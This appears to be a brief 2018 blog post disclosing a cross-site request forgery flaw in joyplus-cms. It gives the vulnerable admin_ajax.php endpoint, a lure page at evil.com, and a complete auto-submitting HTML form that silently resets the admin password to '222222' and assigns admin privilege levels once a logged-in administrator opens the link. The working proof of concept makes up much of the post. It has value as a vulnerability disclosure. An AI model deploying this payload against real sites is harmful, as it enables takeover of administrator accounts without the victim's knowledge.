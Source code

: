 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      The new exploit in joyplus-cms              # 标题 
subtitle:   #副标题
date:       2018-10-09              # 时间
author:     oldT                      # 作者
header-img: img/post-bg-2015.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - 漏洞
---
```


# origin

The yesterday , i use the joyplus-cms Building a website for company. Finding a 
Vulnerability in the cms. The cms is not csrf  verification. The hacker can modify the password of admin,when the admin click the link of the hacker.

# First

we login in the number of admin.

![](https://otgg.github.io/img/%E5%9B%BE%E7%89%871.png)

# secondly

And click the link of the exploit . http://www.evil.com/exploit.html

The password was modified!

![](https://otgg.github.io/img/%E5%9B%BE%E7%89%872.png)

# Vulnerability

The Vulnerability in the interface . looking the follow picture.

http://www.example.com/joyplus-cms/manager/admin_ajax.php?action=save&tab={pre}manager

![](https://otgg.github.io/img/%E5%9B%BE%E7%89%873.png)

# exploit

The exploit.html is next code

```
<form action=http://www.example.com/manager/admin_ajax.php?action=save&tab={pre}manager method=POST>
<input type="text" name="m_id" value="1" />
<input type="text" name="flag" value="edit" />
<input type="text" name="m_name" value="admin" />
<input type="text" name="m_password" value="222222" />	// the password
<input type="text" name="m_levels%5B%5D" value="2" />
<input type="text" name="m_levels%5B%5D" value="4" />
<input type="text" name="m_levels%5B%5D" value="6" />
<input type="text" name="m_levels%5B%5D" value="8" />
<input type="text" name="m_levels%5B%5D" value="9" />
<input type="text" name="m_levels%5B%5D" value="10" />
<input type="text" name="m_levels%5B%5D" value="7" />
<input type="text" name="m_status" value="1" />
</form>
<script> document.forms[0].submit(); </script> 
```
